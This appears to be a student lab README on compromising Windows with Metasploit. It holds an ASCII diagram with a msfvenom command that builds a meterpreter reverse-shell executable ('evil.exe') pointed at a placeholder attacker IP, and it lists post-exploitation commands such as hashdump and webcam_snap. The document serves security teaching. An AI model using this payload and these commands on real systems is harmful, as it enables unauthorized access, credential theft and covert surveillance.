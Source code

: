 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By PRIYANKA K(212223230162)

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```